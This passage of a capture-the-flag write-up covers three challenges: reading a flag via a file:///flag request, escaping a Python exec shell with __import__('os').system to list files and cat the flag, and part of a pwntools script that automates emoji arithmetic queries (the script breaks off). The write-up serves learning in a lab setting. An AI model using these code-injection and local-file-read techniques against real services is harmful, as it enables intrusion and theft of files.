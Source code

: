 I read other people's writeups once the event was over and the actual solution made me feel very dumb. You can simply use the `file` URI [scheme](https://en.wikipedia.org/wiki/File_URI_scheme) to directly read the `flag` file. A `GET` request to `file:///flag` would just return the file directly.

## MISC - Input as a Service

This challenge only provided an IP address to connect to and nothing else. After connecting to the IP using netcat, you get an interactive shell. After playing around with it for a few minutes, you would realise that it is a python shell. Basically, the input is executed as python code using the `exec` command. Here is a code snippet that might have been running at the server -

```python
while 1:
  text = input('>> ')
  exec(text)
```

I tried running `ls` command using `os.system("ls")` but the module `os` was not imported in the running environment. So, I started researching and found this [article](http://vipulchaskar.blogspot.com/2012/10/exploiting-eval-function-in-python).

The solution is that python has a function `__import__` that can be used to dynamically include modules and run commands. Here are the commands I tried and the output I received.

```python
Do you sound like an alien?
>>> 
__import__("os").system("ls")
flag.txt
input_as_a_service.py
__import__("os").system("cat flag.txt")
CHTB{4li3n5_us3_pyth0n2.X?!}
```

## MISC - Alien Camp

In this challenge, there was a mapping provided which was a bunch of emojis and an integer associated with each of the emoji. In order to get the flag, 500 queries had to be answered which were mathematical expressions containing the emojis as variables. This can not be done manually and needed automation since each query had to be answered in a short duration.

The solution to this was pretty straightforward. I created a simple dictionary with the emojis as key and the integers as the value. And for every query, I replaced the emoji with its integer value and evaluated the string using `eval`. Here is the final script that worked.

```python
from pwn import *

r = remote("138.68.185.219", 31618)
r.recv().decode()

r.sendline(b"1")

r.recvuntil("help:\n\n").decode()
keys = r.recvuntil("\n\n").decode()

keys = keys.strip().split(" ")
nums = dict()

for i in range(0, len(keys), 3):
    nums[keys[i]] = keys[i + 2]

print(nums)

r.recv().decode()
r.sendline(b"2")

```